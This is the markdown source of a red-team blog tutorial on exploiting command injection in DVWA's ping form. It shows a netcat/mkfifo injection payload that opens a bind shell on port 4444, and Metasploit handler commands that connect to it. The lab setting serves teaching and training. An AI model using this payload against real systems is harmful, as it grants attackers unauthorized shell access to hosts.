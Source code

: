 ```yaml
---
layout: post
section-type: post
title: Exploiting Command Injection vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa' ]
---
```

Command Injection is the manipulation of a vulnerable software in order to execute arbitrary commands on the host operating system.
Command Injections are possible when the vulnerable application skips the input validation before executing a shell command on the host operating system.
We'll get our hands on DVWA's Command Injection section, and then we'll spawn a backdoor on the host, using [Metasploit](https://www.metasploit.com/).

Visit the *Command Injection* section of DVWA.

![ci-0](/img/posts/ci/ci-0.png)

It says that it will ping a device for, so let's see what will do for the IP *127.0.0.1*:

![ci-1](/img/posts/ci/ci-1.png)

Now, let's try to append a list bash command after our input IP address:

![ci-2](/img/posts/ci/ci-2.png)

Sweet, DVWA simply appends our input in the underlying bash command!

Now, let's listen on port 4444 and redirect all the incoming bytes to a bash shell:

<pre><code data-trim class="bash">

127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe

</code></pre>

![ci-3](/img/posts/ci/ci-3.png)

As you noticed the page is loading forever, so our backdoor is open and waiting for us :smile:

Let's start metasploit and open the shell on the server:

<pre><code data-trim class="bash">

⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1

</code></pre>

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is 4444.

Happy TCP binding!
